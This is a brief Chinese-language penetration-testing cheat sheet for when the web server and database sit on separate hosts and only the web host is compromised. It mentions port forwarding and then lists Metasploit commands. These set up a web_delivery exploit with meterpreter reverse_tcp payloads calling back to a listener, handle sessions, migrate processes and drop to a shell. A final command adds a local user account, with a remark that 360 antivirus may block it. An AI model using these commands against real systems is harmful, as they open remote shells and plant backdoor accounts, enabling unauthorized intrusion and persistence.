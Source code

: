 

## 站库分离, 只拿到web怎样连数据库
sql ip:.1.2   -- web ip: .1.3
通过转发 比如1521 通过将.1.3 端口转发到到本机 msf

```
use xxxx
use exploit/multi/script/web_delivery
show payloads
set payload windows/x64/meterpreter/reverse_tcp
set payload windows/meterpreter/reverse_tcp
set lhost 172.18.8.5
set lport 4444
msf5 > show targets

meterpreter > background
msf5 > jobs
handler -H 192.168.80.103 -P 1124 -p windows/meterpreter/reverse_tcp
sessions -i 1  # 选session
meterpreter > ps
meterpreter > migrate
meterpreter > shell
meterpreter > 

```
shell

```
net user xx a /add  # 可能被360阻止
```

